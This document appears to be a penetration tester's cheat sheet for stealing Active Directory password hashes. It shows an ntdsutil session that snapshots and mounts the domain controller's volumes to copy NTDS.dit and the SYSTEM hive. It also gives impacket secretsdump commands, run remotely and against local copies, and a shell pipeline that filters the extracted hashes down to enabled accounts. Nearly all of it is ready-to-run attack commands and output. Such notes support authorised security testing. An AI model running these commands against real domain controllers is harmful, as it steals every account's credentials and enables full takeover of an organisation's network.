 ### Local DC

C:\Windows\system32>C:

C:\Windows\system32>cd ..
C:\Windows>cd ..

C:\>cd Users	

C:\Users>cd <admin_user>

Change into your admin user directory.

C:\Users\nta007>**ntdsutil**
ntdsutil: **activate instance ntds**
Active instance set to "ntds".
ntdsutil: **snapshot**
snapshot: **create**
Creating snapshot...
Snapshot set {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3} generated successfully.
snapshot: **mount {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} mounted as C:\$SNAP_201801091253_VOLUMED$\
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} mounted as C:\$SNAP_201801091253_VOLUMEC$\
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} mounted as C:\$SNAP_201801091253_VOLUMEE$\

Grab your bits here!

snapshot: **delete {b40f54c1-53eb-46f0-be7c-26c34a9c7bf3}**
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} unmounted.
Snapshot {9f19050e-7b5f-4c49-bbfe-0ebc8e19ad29} deleted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} unmounted.
Snapshot {567151f7-e1ba-430c-8681-1b236dac9b35} deleted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} unmounted.
Snapshot {81fc6e66-5dae-44a7-8df6-c5fc56e096b5} deleted.
snapshot: **quit**
ntdsutil: **quit**

C:\Users\nta007>




GET THE SYSTEM FILE ASWELL (WINDOWS SYSTEM32 CONFIG)
C:\Windows\System32\Config
SYSTEM
NTDS - in the windows folder

### Remote
impacket-secretsdump -just-dc-ntlm FQDN/DA-account@DC-IP

***New commands*** (python3.9)
/usr/share/doc/python3-impacket/examples/secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash -user-status -outputfile <filename> local
cat hashes | grep -v "$:" | grep "status=Enabled" | cut -d'\' -f2 | cut -d"(" -f1 < for getting just the hashes
